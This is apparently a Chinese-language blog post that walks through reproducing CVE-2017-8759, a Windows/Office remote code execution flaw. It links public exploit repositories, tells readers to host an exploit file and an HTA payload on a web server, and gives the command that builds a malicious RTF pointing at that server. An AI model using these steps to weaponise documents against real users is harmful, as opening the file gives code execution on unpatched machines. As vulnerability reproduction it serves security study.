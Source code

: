 ```yaml
---
title: CVE-2017-8759复现
date: 2017-09-23 16:43:47
tags: [CVE, Office RCE]
categories: [安全, POC]
---
```


<!-- more -->

# 下载代码

A: https://github.com/Voulnet/CVE-2017-8759-Exploit-sample

B: https://github.com/bhdresh/CVE-2017-8759

# 部署文件

把A中的exploit.txt、cmd.hta上传到一个web服务器，确保能够通过http访问。

![1](/images/CVE-2017-8759-fuxian-1.png)

# 修改文件内容

修改exploit.txt中的地址为你的web访问地址

![2](/images/CVE-2017-8759-fuxian-2.png)

修改cmd.hta内容如下（看样子是VB脚本，理论上你可以写任意代码，原来的代码功能是打开画图程序）

![3](/images/CVE-2017-8759-fuxian-3.png)

# 生成RTF

在B目录下执行：

```python
# you.com 是你的web访问地址
python cve-2017-8759_toolkit.py -M gen -w readme.rtf -u http://your.com/exploit.txt
```

## 验证漏洞

理论上在任何未打补丁的windows系统上，只要用户执行了readme.rtf，就被RCE了。

![3](/images/CVE-2017-8759-fuxian-4.png)

## 其他

1. 原理：http://www.freebuf.com/articles/system/147602.html
2. 解决cmd弹框闪烁问题：http://www.freebuf.com/vuls/147793.html
